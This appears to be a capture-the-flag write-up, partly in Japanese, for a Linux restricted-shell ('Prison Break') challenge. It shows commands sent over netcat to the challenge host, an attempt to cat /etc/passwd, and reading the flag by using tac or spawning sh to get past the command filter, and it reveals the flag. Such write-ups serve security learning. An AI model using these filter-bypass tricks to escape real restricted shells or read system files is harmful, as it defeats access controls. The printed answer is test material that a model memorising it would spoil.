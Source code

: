 # Prison Break

## Description

351

A linux jail challenge. Find a way out of prison shell! try root!

## writeup

whomai, hostname以外に、特定のコマンドを打つとブロックされました。
試しに/etc/passwdをcatするとディレクトリ情報が出てきたため、ルート配下を全て見てみると、/ctfディレクトリを確認しました。そして/ctf/*の中を見るとflag.txtがありました。そして、tacコマンドで見れました。また、shコマンドの後にコマンドを打つとフラグが見れました。

```bash
$ nc 143.198.224.219 21212
user @ csictf: $
whoami
ctf
user @ csictf: $
hostname
d9cb53aa2a9b
user @ csictf: $
cat /etc/passwd
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo. /etc/passwd                       /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
ls /*
 ________________________________________
/ Don't look at me, I'm just here to say \
| moo. /bin /boot /ctf /dev /etc /home   |
| /lib /lib64 /media /mnt /opt /proc     |
| /root /run /sbin /srv /sys /tmp /usr   |
\ /var                                   /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
ls /ctf/*
 ________________________________________
/ Don't look at me, I'm just here to say \
| moo. /ctf/flag.txt /ctf/script.sh      |
\ /ctf/start.sh                          /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
tac /ctf/flag.txt
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
user @ csictf: $
sh
cat ./flag.txt
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
```

## FLAG

```bash
OFPPT-CTF{Pr1s0n_sh3ll_3sc4p3d}
```
